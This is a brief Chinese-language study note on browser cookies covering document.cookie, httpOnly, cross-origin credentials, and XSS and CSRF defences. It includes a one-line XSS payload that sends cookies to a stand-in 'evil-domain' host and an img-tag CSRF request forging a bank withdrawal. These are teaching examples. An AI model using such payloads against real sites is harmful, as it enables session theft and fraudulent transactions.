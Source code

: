 # cookie

## 查看cookie

document.cookie

## httpOnly

不允许客户端使用`JS`访问cookie，document.cookie也是不能够获取的

## 设置cookie

```js
document.cookie = "name=mzy;age=20"
```

## 跨域携带发送cookie

```js
// 后端配置
Access-Control-Allow-Credentials: true;
// 前端请求头
withCredentials：true
```

## XSS攻击

**解决**：**httpOnly:true**

```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie
```

## CSRF攻击

**解决**：验证`refer`，重要请求post提交，验证码等...

```js
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

